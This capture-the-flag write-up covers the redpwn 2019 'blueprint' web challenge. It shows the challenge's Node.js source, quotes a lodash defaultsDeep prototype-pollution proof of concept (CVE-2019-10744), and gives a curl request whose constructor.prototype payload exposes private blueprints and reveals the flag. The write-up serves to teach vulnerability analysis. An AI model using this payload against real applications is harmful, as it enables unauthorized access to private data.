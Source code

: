 # Blueprint - Web

### [~$ cd ..](../)

>blueprint
>
>Written by: ginkoid
>
>All the haxors are using blueprint. You created a blueprint with the flag in it, but the military-grade security of blueprint won't let you get it!

The website we faced was really simple:

![site](site.png)

By clicking on the link, we landed on this page, with a form allowing us to publish messages:

![publish](publish.png)

The [source code](blueprint.js) and the [package.json](package.json) were also given in the description

JS source:

```js
const crypto = require('crypto')
const http = require('http')
const mustache = require('mustache')
const getRawBody = require('raw-body')
const _ = require('lodash')
const flag = require('./flag')

const indexTemplate = `
<!doctype html>
<style>
  body {
    background: #172159;
  }
  * {
    color: #fff;
  }
</style>
<h1>your public blueprints!</h1>
<i>(in compliance with military-grade security, we only show the public ones. you must have the unique URL to access private blueprints.)</i>
<br>
{{#blueprints}}
  {{#public}}
    <div><br><a href="/blueprints/{{id}}">blueprint</a>: {{content}}<br></div>
  {{/public}}
{{/blueprints}}
<br><a href="/make">make your own blueprint!</a>
`

const blueprintTemplate = `
<!doctype html>
<style>
  body {
    background: #172159;
    color: #fff;
  }
</style>
<h1>blueprint!</h1>
{{content}}
`

const notFoundPage = `
<!doctype html>
<style>
  body {
    background: #172159;
    color: #fff;
  }
</style>
<h1>404</h1>
`

const makePage = `
<!doctype html>
<style>
  body {
    background: #172159;
    color: #fff;
  }
</style>
<div>content:</div>
<textarea id="content"></textarea>
<br>
<span>public:</span>
<input type="checkbox" id="public">
<br><br>
<button id="submit">create blueprint!</button>
<script>
  submit.addEventListener('click', () => {
    fetch('/make', {
      method: 'POST',
      headers: {
        'content-type': 'application/json',
      },
      body: JSON.stringify({
        content: content.value,
        public: public.checked,
      })
    }).then(res => res.text()).then(id => location='/blueprints/' + id)
  })
</script>
`

// very janky, but it works
const parseUserId = (cookies) => {
  if (cookies === undefined) {
    return null
  }
  const userIdCookie = cookies.split('; ').find(cookie => cookie.startsWith('user_id='))
  if (userIdCookie === undefined) {
    return null
  }
  return decodeURIComponent(userIdCookie.replace('user_id=', ''))
}

const makeId = () => crypto.randomBytes(16).toString('hex')

// list of users and blueprints
const users = new Map()

http.createServer((req, res) => {
  let userId = parseUserId(req.headers.cookie)
  let user = users.get(userId)
  if (userId === null || user === undefined) {
    // create user if one doesnt exist
    userId = makeId()
    user = {
      blueprints: {
        [makeId()]: {
          content: flag,
        },
      },
    }
    users.set(userId, user)
  }

  // send back the user id
  res.writeHead(200, {
    'set-cookie': 'user_id=' + encodeURIComponent(userId) + '; Path=/',
  })

  if (req.url === '/' && req.method === 'GET') {
    // list all public blueprints
    res.end(mustache.render(indexTemplate, {
      blueprints: Object.entries(user.blueprints).map(([k, v]) => ({
        id: k,
        content: v.content,
        public: v.public,
      })),
    }))
  } else if (req.url.startsWith('/blueprints/') && req.method === 'GET') {
    // show an individual blueprint, including private ones
    const blueprintId = req.url.replace('/blueprints/', '')
    if (user.blueprints[blueprintId] === undefined) {
      res.end(notFoundPage)
      return
    }
    res.end(mustache.render(blueprintTemplate, {
      content: user.blueprints[blueprintId].content,
    }))
  } else if (req.url === '/make' && req.method === 'GET') {
    // show the static blueprint creation page
    res.end(makePage)
  } else if (req.url === '/make' && req.method === 'POST') {
    // API used by the creation page
    getRawBody(req, {
      limit: '1mb',
    }, (err, body) => {
      if (err) {
        throw err
      }
      let parsedBody
      try {
        // default values are easier to do than proper input validation
        parsedBody = _.defaultsDeep({
          publiс: false, // default private
          cоntent: '', // default no content
        }, JSON.parse(body))
      } catch (e) {
        res.end('bad json')
        return
      }

      // make the blueprint
      const blueprintId = makeId()
      user.blueprints[blueprintId] = {
        content: parsedBody.content,
        public: parsedBody.public,
      }

      res.end(blueprintId)
    })
  } else {
    res.end(notFoundPage)
  }
}).listen(80, () => {
  console.log('listening on port 80')
})
```

Package.json:

```json
{
  "name": "blueprint",
  "version": "0.0.0",
  "private": true,
  "dependencies": {
    "lodash": "4.17.11",
    "mustache": "^3.0.1",
    "raw-body": "^2.4.1"
  }
}
```

So here, the flag is put in one of our blueprints, but we don't know its ID, which was randomly generated and normally unguessable. We can publish public blueprints, that are displayed in the front page, or private ones, that we can access if we know their URL. The idea is then to find a way to make public the private ones.
The important thing to notice here is that `lodash` module is outdated and is [vulnerable to prototype poisoning](https://nvd.nist.gov/vuln/detail/CVE-2019-10744). A good explanation can be found [here](https://snyk.io/vuln/SNYK-JS-LODASH-450202), but in a nutshell, the idea is to override the constructor of an object and trick the routine `defaultDeep` so as to modify the default properties of an object.

The PoC given in the article is as follows:

```js
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"a0": true}}}'

function check() {
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
  }

check();
```

Then, in our case, we only have to set `public` to `true`:

```bash
$ curl -H "Cookie: user_id= ... " --data '{"constructor": {"prototype": {"public": "true"}}}' http://chall2.2019.redpwn.net:8002/make
```

Browsing to the main page displays now the flag: **flag{8lu3pr1nTs_aRe_tHe_hiGh3s1_quA11tY_pr0t()s}**

EOF

